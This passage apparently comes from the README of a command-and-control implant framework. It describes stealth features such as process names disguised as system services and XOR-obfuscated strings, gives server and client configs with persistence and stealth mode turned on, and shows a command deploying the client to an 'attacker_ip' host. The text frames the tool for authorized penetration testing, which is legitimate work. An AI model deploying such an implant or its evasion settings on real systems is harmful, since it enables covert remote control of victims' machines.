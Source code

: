 ### **Stealth Features**

- **Windows**: Hides console window, runs without visible interface
- **Linux/Unix**: Forks into background daemon, detaches from terminal
- **Process names**: Disguised as system processes (svchost, systemd-service, etc.)
- **String obfuscation**: Basic XOR encoding of sensitive strings

### **Network Configuration**

The client automatically handles:
- Connection timeouts and retries
- Exponential backoff on reconnection failures
- Session resumption after network interruptions
- Graceful handling of server restarts

## 🔧 Configuration Files

### **Server Configuration (server_config.toml)**
```toml
[server]
bind_address = "0.0.0.0"        # Interface to bind to
bind_port = 4444                 # Port to listen on
rsa_key_size = 2048             # RSA key size in bits
heartbeat_timeout = 300         # Client timeout in seconds
max_clients = 100               # Maximum concurrent clients

[logging]
enable_logging = true           # Enable file logging
log_file = "c2_server.log"     # Log file path
log_level = "info"             # Log level (debug, info, warn, error)
```

### **Client Configuration (client_config.toml)**
```toml
[client]
server_address = "127.0.0.1"   # C2 server IP
server_port = 4444              # C2 server port
reconnect_delay = 30            # Base reconnect delay (seconds)
heartbeat_interval = 60         # Heartbeat frequency (seconds)
command_poll_interval = 5       # Command polling frequency (seconds)
max_reconnect_attempts = 0      # Max reconnects (0 = infinite)
persistence_enabled = true      # Enable auto-startup
stealth_mode = true             # Enable stealth mode
```

## 🧪 Testing Scenarios

### **Authorized Penetration Testing**

1. **Initial Access Simulation:**
   ```bash
   # Deploy client on target system (with permission)
   ./c2_client --server attacker_ip --port 4444
   ```
